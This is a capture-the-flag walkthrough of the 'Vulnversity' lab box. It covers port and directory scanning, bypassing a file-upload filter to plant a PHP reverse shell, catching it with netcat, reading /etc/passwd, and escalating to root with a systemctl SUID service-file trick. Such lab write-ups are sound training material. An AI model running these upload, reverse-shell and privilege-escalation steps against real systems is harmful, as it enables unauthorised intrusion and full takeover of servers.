




Vulnversity
Hello
Scan for Open Ports in nmap
nmap -sV -O -p- <IP Address>

Enumerate Directories on the web server using Gobuster.
| GoBuster flag | Description |
|---|---|
| -e | Print the full URLs in your console |
| -u | The target URL |
| -w | Path to your wordlist |
| -U and -P | Username and Password for Basic Auth |
| -p <x> | Proxy to use for requests |
| -c <http cookies> | Specify a cookie for simulating your auth |
gobuster dir -u http://10.10.0.155:3333 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt

We note that PHP extension is blocked for upload.
Use the burpsuite Intruder
We're going to use Intruder (used for automating customised attacks).
To begin, make a wordlist with the following extensions in:


Seeing the burpsuite intruder result, we check the length and conclude, phtml extention might be allowed.
We get the PHP reverse shell at https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
We make the necessary changes to IP and PORT. Then rename the php-reverse-shell.php file to php-reverse-shell.phtml
Then we upload it to the webserver.
Start the netcat listener: nc -lvnp 7777 (Port mentioned in reverse shell file)
Then run the reverse shell by: http://10.10.0.155:3333/internal/uploads/php-reverse-shell.phtml
In the received shell,
cat /etc/passwd
To know to user who manages this webserver.
cd /home/jill
cat user.txt
We get the user flag.
For Root:
find / -type f -perm -04000 2>/dev/null
or
find / -user root -perm -4000 -exec ls -ldb {} \;
search all suid set files
We find /bin/systemctl has SUID bit set.
Use GTFOBins and run the following.
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "id > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
systemctl link $TF
systemctl enable --now $TF
The above will run id command as root and store the output in /tmp/output file.
Change your commands after -c to ls /root then cat the flag etc
or
we can run a reverse shell after -c on a different port and listen in netcat to have a root shell.
We get the root flag in both ways.
Thanks !!